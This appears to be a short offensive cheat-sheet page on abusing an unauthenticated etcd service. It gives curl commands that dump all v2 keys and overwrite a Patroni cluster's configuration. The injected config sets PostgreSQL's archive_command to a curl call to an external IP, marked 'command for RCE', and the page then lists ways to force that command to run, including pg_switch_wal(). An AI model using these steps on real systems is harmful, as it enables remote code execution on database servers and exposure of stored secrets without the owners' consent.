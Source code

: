 # Etcd

### Check v2 api keys

`curl -s localhost:2379/v2/keys/?recursive=true | jq`&#x20;



### Update Patroni cluster config for RCE

**Get config**

`curl -s http://localhost:2379/v2/keys/service/<CLUSTER_NAME>/config | jq`

**Update config**

`curl -s -X PUT http://localhost:2379/v2/keys/service/<CLUSTER_NAME>/config`\
`-d value="$(jq -c . config.json)" | jq`

_config.json:_

```json
{
  "ttl": 30,
  "loop_wait": 10,
  "retry_timeout": 10,
  "maximum_lag_on_failover": 1048576,
  "postgresql": {
    "use_pg_rewind": true,
    "parameters": {
      "archive_command": "curl http://158.160.117.132:1337", // command for RCE
      "archive_mode": "always",
      "archive_timeout": "10", // period for command execution
      "max_connections": 550,
      "max_locks_per_transaction": 512,
      "max_worker_processes": 27
    }
  }
}
```

Archive command is needed to backup wal in postgres. Every time a certain amount of data is reached (can also be configured in the config) wal is archived by executing `archive_command`

_the archive\_command trigger requires_\
1\) Generate enough traffic to write to the database

2\) Trigger `archive_timeout`,

3\) Execute the `SELECT pg_switch_wal();` command, for force archives the wal
